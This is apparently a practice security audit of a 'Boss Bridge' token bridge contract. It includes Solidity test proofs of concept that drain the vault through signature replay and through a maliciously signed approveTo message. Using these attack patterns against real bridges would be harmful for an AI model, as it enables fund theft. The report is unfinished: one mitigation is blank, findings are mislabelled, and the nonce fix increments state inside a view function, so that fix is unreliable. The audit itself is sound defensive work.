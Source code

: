 # BOSS BRIDGE AUDIT REPORTS

# High

# [H-1] Signature replay attack at `L1BossBridge::sendToL1`

**Description:** Message signing do not contain single-use mechanism such `nonce` or `deadlines`. Hence, signatures can be used `n` number of times in order to execute `messages`.

**Impact:** Transfer signed by Signers can be executed by anyone effectively sending or withdrawing `n` number of times identical transaction as long as `L1BossBridge` owns or manages enough `L1Tokens` on `L1Vault`.

**Proof of Concept**

- Signatures are not one-usage and there's no mechanism from L1 to determine that user locked and unlocked tokens;

```javascript
   function testSignatureReplayAttacks() public {
        uint256 amount = 1 ether;

        uint256 vaultInitialBalance = 100e18;
        uint256 userInitialBalance = token.balanceOf(user);
        deal(address(token), address(vault), vaultInitialBalance);

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(
            _getTokenWithdrawalMessage(user, amount),
            operator.key
        );

        while (token.balanceOf(address(vault)) > 0) {
            tokenBridge.withdrawTokensToL1(user, amount, v, r, s);
        }

        uint256 userEndingBalance = token.balanceOf(user);
        uint256 vaultEndingBalance = token.balanceOf(address(vault));

        assertEq(userEndingBalance, vaultInitialBalance + userInitialBalance);
        assertEq(vaultEndingBalance, 0);
    }
```

**Recommended Mitigation**

- usage of nonces to enable one-usage signatures
- usage of deadlines to allow signature validity within a time range.

```diff
    function _getTokenWithdrawalMessage(
        address recipient,
        uint256 amount
    ) private view returns (bytes memory) {
+       nonce += 1;
        return
            abi.encode(
+               nonce,
                address(token), // target
                0, // value
                abi.encodeCall(
                    IERC20.transferFrom,
                    (address(vault), recipient, amount)
                ) // data
            );
    }
```

# [H-2] Any user is able to call `Bossbridge -> Vault::ApproveTo` to take control over an amount of tokens, in order to drain vault balance.

**Description:** There's no regulation about what kind of messages can be signed, it's just a request so as to get a valid signature to redeem L2 tokens into L1 `knowing that exists a valid Deposit event on L1`, users can leverage it to request signatures over any kind of message.

**Impact:** the following vulnerabilty catches the attention of malicious users due to the facility oo draining all funds in a vault.

**Proof of concept:**

```javascript

    function testMaliciousMessageSignatures() public {
        uint256 vaultInitialBalance = 100e18;
        deal(address(token), address(vault), vaultInitialBalance);

        address attacker = makeAddr("attacker");

        bytes memory message = abi.encode(
            address(vault),
            0,
            abi.encodeCall(vault.approveTo, (attacker, vaultInitialBalance))
        );

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

        tokenBridge.sendToL1(v, r, s, message);
        vm.prank(attacker);
        token.transferFrom(address(vault), attacker, vaultInitialBalance);

        uint256 attackerBalance = token.balanceOf(attacker);
        uint256 vaultEndingBalance = token.balanceOf(address(vault));

        assertEq(attackerBalance, vaultInitialBalance);
        assertEq(vaultEndingBalance, 0);
    }
```

**Recommened Mitigation:**

# [H-3] Users might charge with high gas consumption during a `Withdraw` to L1 from L2, making `BossBridge` to spend more ether in gas as the transfer occurs.

**Description:** while requesting withdraws, `BossBridge` has to perform a transfer from `Vault` to a recipient, this operation is an external call, recipients might implement complex logic on receiving tokens.

# [H-3] CREATE opcode is not supported on ZkSync L2, unablaing token deployments.

**Description:** ZkSync era is not fully compatible with EVM, as specified in their documentation, the usage of `CREATE` opcode differs from `EVM::CREATE`.

**Impact:**

```javascript
    function deployToken(
        string memory symbol,
        bytes memory contractBytecode
    ) public onlyOwner returns (address addr) {
        assembly {
           @> addr := create(
                0,
                add(contractBytecode, 0x20),
                mload(contractBytecode)
            )
        }
        s_tokenToAddress[symbol] = addr;
        emit TokenDeployed(symbol, addr);
    }
```

**Recomended Mitigation:**

- usage of `new`keyword to deploy instead of low level call to `create`.

```diff
    function deployToken(
        string memory symbol,
        bytes memory contractBytecode
    ) public onlyOwner returns (address addr) {
-        assembly {
-            addr := create(
-                0,
-                add(contractBytecode, 0x20),
-                mload(contractBytecode)
-            )
-        }
+       L1Token token = new L1Token();
-       s_tokenToAddress[symbol] = addr;
+       s_tokenToAddress[symbol] = address(token);
-       emit TokenDeployed(symbol, addr);
+       emit TokenDeployed(symbol, address(token));
    }
```

# [H-3] `DEPOSIT_LIMIT` constant verification gnerates `DOS`, unabling users to bridge their tokens to L2.

**Description:** Limiting the deposit as mentioned in `BossBridge` documentation, allows the protocol to work within a controlled load of tokens bridging, but keep in mind that users won't be able to `Bridge` tokens as long as `DEPOSIT_LIMIT` lowers, generation `DOS` for some users.
